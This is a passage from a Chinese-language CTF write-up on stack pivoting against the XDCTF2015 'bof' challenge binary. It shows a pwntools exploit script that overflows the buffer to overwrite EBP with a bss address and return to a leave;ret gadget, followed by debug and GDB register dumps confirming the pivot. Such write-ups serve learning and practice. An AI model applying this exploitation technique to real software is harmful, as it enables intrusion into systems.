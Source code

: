 找到所需要的**ROP**链的部分，如果我们将**payload**写为下面这样运行就能实现栈迁移，将**ebp**覆盖为我们想要迁移过去的值 ，然后执行**leave_ret**就能将栈迁移过去 

具体的Exploit为

```python
from pwn import *
p = process('./bof')
elf = ELF('./bof')
gdb.attach(p)

offset_ebp = 0x6c
ppp_ret = 0x08048619 #pop esi ; pop edi ; pop ebp ; ret
pop_ebp_ret = 0x0804861b #pop ebp ; ret
leave_ret = 0x08048458 #leave ; ret
bss_addr = 0x0804a040 # readelf -S pwn1 | grep ".bss"
stack_size = 0x800
base_stage = bss_addr + stack_size


p.recvuntil('Welcome to XDCTF2015~!\n')
payload = ''
payload+= 'a'*offset_ebp
payload+= p32(base_stage)
payload+= p32(leave_ret)
p.sendline(payload)
p.interactive()
```

GDB调试环节

```cc
[DEBUG] Received 0x17 bytes:
    'Welcome to XDCTF2015~!\n'
[DEBUG] Sent 0x75 bytes:
    00000000  61 61 61 61  61 61 61 61  61 61 61 61  61 61 61 61  │aaaa│aaaa│aaaa│aaaa│
    *
    00000060  61 61 61 61  61 61 61 61  61 61 61 61  40 a8 04 08  │aaaa│aaaa│aaaa│@···│
    00000070  58 84 04 08  0a                                     │X···│·│
    00000075
```

发送payload后，EBP已经被覆盖为我们布置好的FakeStack地址了，也就bss段地址

```c
─────────────────────────────────[ REGISTERS ]──────────────────────────────────
 EAX  0x75
 EBX  0x0
 ECX  0xffe1207c ◂— 0x61616161 ('aaaa')
 EDX  0x100
 EDI  0xffe12160 —▸ 0xffe12180 ◂— 0x1
 ESI  0xf7ef7000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b1db0
 EBP  0x804a840 ◂— 0x0
 ESP  0xffe120ec —▸ 0x8048458 (deregister_tm_clones+40) ◂— leave  
 EIP  0x804851e (vuln+51) ◂— ret    
───────────────────────────────────[ DISASM ]───────────────────────────────────
   0x8048519 <vuln+46>                    add    esp, 0x10
   0x804851c <vuln+49>                    nop    
   0x804851d <vuln+50>                    leave  
 ► 0x804851e <vuln+51>                    ret             <0x8048458; deregister_tm_clones+40>
    ↓
   0x8048458 <deregister_tm_clones+40>    leave  
   0x8048459 <deregister_tm_clones+41>    ret    
 
   0x804845b <deregister_tm_clones+43>    nop    
   0x804845c <deregister_tm_clones+44>    lea    esi, [esi]
   0x8048460 <register_tm_clones>         mov    eax, 0x804a028
   0x8048465 <register_tm_clones+5>       sub    eax, 0x804a028
```
